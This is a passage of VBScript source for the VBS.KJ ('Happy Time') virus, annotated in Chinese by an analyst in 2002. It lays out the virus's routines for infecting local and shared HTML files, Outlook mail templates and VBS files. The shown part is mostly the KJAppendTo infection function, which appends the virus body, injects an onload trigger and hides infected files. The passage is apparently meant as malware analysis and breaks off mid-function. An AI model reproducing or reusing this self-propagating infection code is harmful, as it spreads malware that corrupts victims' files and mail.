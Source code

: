 ```vbscript

#避免执行之


' ccor ccor@263.net
' 　发表于 2002-12-1 8:55:25 
'   VBS.KJ[新欢乐时光病毒]源代码分析 
' Virus: VBS.KJ 
' Analyze by DanceFire ( DanceFire@263.net ) 
' 2002/7/10 
' 


Dim InWhere,HtmlText,VbsText,DegreeSign,AppleObject,FSO,WsShell,WinPath,SubE,FinalyDisk 

Sub KJ_start() 
	' 初始化变量 
	KJSetDim() 
	' 初始化环境 
	KJCreateMilieu() 
	' 感染本地或者共享上与html所在目录 
	KJLikeIt() 
	' 通过vbs感染Outlook邮件模板 
	KJCreateMail() 
	' 进行病毒传播 
	KJPropagate() 
End Sub 


' 函数：KJAppendTo(FilePath,TypeStr) 
' 功能：向指定类型的指定文件追加病毒 
' 参数： 
' FilePath 指定文件路径 
' TypeStr 指定类型 
Function KJAppendTo(FilePath,TypeStr) 
On Error Resume Next 
' 以只读方式打开指定文件 
Set ReadTemp = FSO.OpenTextFile(FilePath,1) 
' 将文件内容读入到TmpStr变量中 
TmpStr = ReadTemp.ReadAll 
' 判断文件中是否存在"KJ_start()"字符串，若存在说明已经感染，退出函数； 
' 若文件长度小于1，也退出函数。 
If Instr(TmpStr,"KJ_start()") <> 0 Or Len(TmpStr) < 1 Then 
ReadTemp.Close 
Exit Function 
End If 
' 如果传过来的类型是"htt" 
' 在文件头加上调用页面的时候加载KJ_start()函数; 
' 在文件尾追加html版本的加密病毒体。 
' 如果是"html" 
' 在文件尾追加调用页面的时候加载KJ_start()函数和html版本的病毒体; 
' 如果是"vbs" 
' 在文件尾追加vbs版本的病毒体 
If TypeStr = "htt" Then 
ReadTemp.Close 
Set FileTemp = FSO.OpenTextFile(FilePath,2) 
FileTemp.Write "<" & "BODY onload=""" & "vbscript:" & "KJ_start()""" & ">" & vbCrLf & TmpStr & vbCrLf & HtmlText 
FileTemp.Close 
Set FAttrib = FSO.GetFile(FilePath) 
FAttrib.attributes = 34 
Else 
ReadTemp.Close 
```
